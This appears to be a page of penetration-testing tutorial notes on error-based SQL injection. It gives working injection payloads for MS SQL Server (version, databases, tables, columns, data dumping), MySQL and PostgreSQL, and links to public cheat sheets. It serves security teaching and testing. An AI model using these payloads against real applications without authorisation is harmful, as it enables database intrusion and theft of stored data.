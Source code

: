 # 2.4.4 Exploiting Error-Based SQL Injection

## Exploiting Error-Based SQL Injection

Error-based SQL injections are an advanced technique to extract data from a database by triggering errors that reveal information within the error messages. This method is particularly fast and effective and is supported by various database management systems (DBMS) such as Oracle, PostgreSQL, and MS SQL Server.

### **MS SQL Server Error-based Exploitation**

**MS SQL Server Version Extraction:** To begin, it's crucial to identify the version of the MS SQL Server, as different versions may have different default column names in the master database. The `CAST` technique is employed to trigger a type conversion error, which reveals the database version. For example:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))); --
```

This payload, when injected into the vulnerable parameter, will cause an error message that includes the database version.

**Enumerating Databases:** After identifying the version, the next step is to enumerate the databases accessible to the current user. This is done using the `db_name()` function within a loop:

```sql
9999999 or 1 in (SELECT TOP 1 CAST (db_name(1) as varchar(4096))); --
```

Incrementing the argument of `db_name()` allows iterating through the available databases.

**Enumerating Database Tables:** Once databases are enumerated, the next step is to find the tables in a particular database:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM <database_name>..sysobjects WHERE xtype='U' and name NOT IN ('')); --
```

Here, the `xtype='U'` condition ensures that only user-defined tables are considered.

**Enumerating Columns:** After identifying tables, the columns within those tables need to be enumerated:

```sql
9999 or 1 in (SELECT TOP 1 CAST (<db_name>..syscolumns.name as varchar(4096)) FROM <db_name>..syscolumns,<db_name>..sysobjects WHERE <db_name>..syscolumns.id=<db_name>..sysobjects.id AND  <db_name>..sysobjects.name=<table_name> AND <db_name>..syscolumns.name NOT IN ('')); --
```

This query retrieves the column names for a specific table in the specified database.

**Dumping Data:** Finally, with knowledge of the database structure, data can be dumped using a similar technique:

```sql
9999999 or 1 in (SELECT TOP 1 CAST(<column_name> as varchar(4096)) FROM <database_name>..<table_name> WHERE <column_name> NOT IN ('')); -- -
```

This query retrieves the actual content of the specified column in the specified table.

### **MySQL Error-Based SQLi Exploitation**

To exploit error-based SQL injection on MySQL, the `GROUP BY` statement is utilized. An example payload skeleton is as follows:

```sql
SELECT 1,2 UNION SELECT COUNT(*), CONCAT(<information_to_extract>, floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

For example, to extract the database version:

```sql
SELECT COUNT(*), CONCAT(version(), floor(rand(0)*2)) AS x FROM information_schema.tables GROUP BY x;
```

### **PostgreSQL Error-Based SQLi Exploitation**

Error-based SQL injection on PostgreSQL involves leveraging the cast technique. For example, to extract the database version:

```sql
select cast(version() as numeric);
```

Iterating over the `information_schema` table allows enumerating tables:

```sql
select cast((select table_name from information_schema.tables limit 1 offset 0) as numeric);
select cast((select table_name from information_schema.tables limit 1 offset 1) as numeric);
select cast((select table_name from information_schema.tables limit 1 offset 2) as numeric);
```

Similar to MS SQL Server, error-based SQL injection requires understanding the functions and syntax specific to each DBMS. PentestMonkey's SQL injection cheat sheets can be valuable references for crafting payloads tailored to different databases:

* [MSSQL Injection Cheat Sheet](https://www.pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [MySQL Injection Cheat Sheet](https://www.pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
* [PostgreSQL Injection Cheat Sheet](https://www.pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)

\






